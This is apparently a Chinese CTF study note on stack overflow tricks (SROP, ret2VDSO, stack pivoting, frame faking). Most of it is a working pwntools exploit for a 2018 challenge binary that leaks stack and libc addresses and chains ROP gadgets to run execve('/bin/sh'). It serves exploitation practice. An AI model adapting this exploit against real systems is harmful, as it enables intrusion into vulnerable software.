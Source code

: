 ### SROP

### ret2VDSO

### 花式栈溢出

- stack pivoting

[X-CTF Quals 2016 - b0verfl0w](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF%20Quals%202016%20-%20b0verfl0w)

转移堆：[EkoPartyCTF 2016 fuckzing-exploit-200](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/EkoPartyCTF%202016%20fuckzing-exploit-200)

- frame faking

2018 安恒杯 over

![img](https://my-md-1253484710.file.myqcloud.com/20190522130814.png)

直接EXP 分析，，困扰了很久的exp

```python
from pwn import *
context.binary = "./over.over"

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

io = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

io.sendafter(">", 'a' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))


#  DEBUG("b *0x4006B9\nc") 96
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

pop_rdi_ret=0x400793
'''
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
0x00000000000f5279 : pop rdx ; pop rsi ; ret
'''
pop_rdx_pop_rsi_ret=libc.address+0xf5279


payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

io.sendafter(">", payload)

io.interactive()
```
